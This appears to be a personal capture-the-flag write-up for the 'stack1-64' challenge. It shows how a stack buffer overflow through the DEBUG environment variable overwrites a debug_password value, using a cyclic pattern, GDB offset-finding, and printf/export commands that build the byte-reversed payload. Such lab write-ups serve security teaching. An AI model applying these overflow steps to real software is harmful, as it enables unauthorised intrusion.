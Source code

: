 # stack1-64

file in dir:
`/problems/stack1r-64_6_f8971f22ac04a7dad46dfe8bde78b565`

## Steps

> [!note] Code in ./stack1.c
> Using ENV to overwrite debug_password and get debug value from file

1) exploiting an enviornment var
- `generator_mode = getenv("DEBUG")`
- thus, we need to set the DEBUG env variable as some sort of patterened text to figure out exactly where it is overflowing
  - export DEBUG=`pwn cyclic -n4 256`
- echo $DEBUG

`aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac`

1) inital GDB

- `gdb stack1-64`
- `b main`
- `r`
- next instruction until the buffer is coppied into a new variable with strcpy
- `p &debug_password`
  - `0x7fffffffe32c`
  - `x/s 0x7fffffffe32c`
    - **caab**
  - find the above string in the dump

> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaab**caab**daabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaachaaciaacjaackaaclaacmaacnaac

2) What is the new exploit string

- replace `caab` with `0x0d0a0d0a` (what the debug pswd is set to in code)

### What is 0x0d0a0d0a

`0x0D0A0D0A` is a hexadecimal representation of a sequence of bytes. Breaking it down:

- unhex 0x0d0a0d0a prints 2 blank lines
- 0D (hex) = 13 (decimal) = \r (carriage return, CR)
- 0A (hex) = 10 (decimal) = \n (line feed, LF)
- so, at `caab`, we need `\r\n\r\n`



3) add new exploit string to env

- export DEBUG=$(printf "<string>") 
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaab\r\n\r\n
- to test, we can run `echo "$DEBUG" | cat -A`
- this should print:
> aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaab^M\$^M$
> 
> ^M is \r and $ is \n

### echoing into a pipe to hex:

` echo $DEBUG | hex`
>...7a61616262616162  0d200d0a
why is the ending not 0x0d0a0d0a
- 0D (hex) = 13 (decimal) = \r (carriage return, CR)
- 20 (hex) = 32 (decimal) = Space (" ")
- 0D (hex) = 13 (decimal) = \r (carriage return, CR)
- 0A (hex) = 10 (decimal) = \n (line feed, LF)

*I must try a different approach*

4) new input method

` 
printf -v DEBUG "aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaazaabbaab\r\n\r\n"
export DEBUG
`
- This did not work due to the memory being reversed - the actual exploit string was the same but with \n\r\n\r at the end.

verify above by checking:
`echo -n "$DEBUG" | od -tx1`

` 0000000 61 61 61 61 62 61 61 61 63 61 61 61 64 61 61 61
0000020 65 61 61 61 66 61 61 61 67 61 61 61 68 61 61 61
0000040 69 61 61 61 6a 61 61 61 6b 61 61 61 6c 61 61 61
0000060 6d 61 61 61 6e 61 61 61 6f 61 61 61 70 61 61 61
0000100 71 61 61 61 72 61 61 61 73 61 61 61 74 61 61 61
0000120 75 61 61 61 76 61 61 61 77 61 61 61 78 61 61 61
0000140 79 61 61 61 7a 61 61 62 62 61 61 62 0a 0d 0a 0d
0000160 `

Now, once ran - the flag was provided!
